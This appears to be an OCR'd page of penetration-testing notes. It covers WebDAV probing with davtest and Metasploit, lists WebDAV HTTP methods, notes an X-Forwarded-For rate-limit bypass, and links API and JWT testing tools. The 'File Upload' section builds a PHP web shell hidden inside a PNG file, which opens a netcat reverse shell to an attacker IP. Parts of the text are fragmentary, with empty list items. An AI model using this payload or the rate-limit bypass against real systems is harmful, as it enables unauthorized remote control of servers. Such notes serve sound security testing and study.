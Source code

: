 Commands:

- **ls**:
- **put**:
- **


davtest -url http://192.168.1.6/webdav


use auxiliary/scanner/http/webdav_scanner

###### *If you don't know, now you know: [WebDAV]()*

WebDAV (Web Distributed Authoring and Versioning) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations.
Basically it is an extension to the HTTP methods and headers which offers the ability to create files and folders, and allow to edit, delete or move them remotely.

WebDAV extends the set of standard HTTP verbs and headers allowed for request methods. 

- **COPY**: Copy a resource from one URI to another
- **LOCK**: Put a lock on a resource. WebDAV supports both shared and exclusive locks.
- **MKCOL**: Create collections (a.k.a. a directory)
- **MOVE**: Move a resource from one URI to another
- **PROPFIND**: Retrieve properties, stored as XML, from a web resource. It is also overloaded to allow one to retrieve the collection structure (also known as directory hierarchy) of a remote system.
- **PROPPATCH**: Change and delete multiple properties on a resource in a single atomic act
- **UNLOCK**: Remove a lock from a resource

#### Test Number of Times a Function Can Be Used Limits

##### Bypass #1

There is a HTTP header called "X-Forwarded-For" (XFF) which takes an IP address as value .

<https://desmond-hume.medium.com/bypassing-ip-based-rate-limit-72c3d081f15b>

##### API Testing

[OpenAPI Security Scanner](https://gitlab.com/ngalog-gitlab/openapi_security_scanner/) is created to help to discover authorization security issues with both automation and manual review.

It behaves like an external unit test tool to make sure everything is behaving the way it should be.

#### JSON Web Token

[jwtXploiter](https://github.com/DontPanicO/jwtXploiter) is a tool to test the security of json web token.

##### File Upload

cp original.png ./shell.php.png
echo '<?php' >> ./shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> ./shell.php.png
echo '?>' >> ./shell.php.png
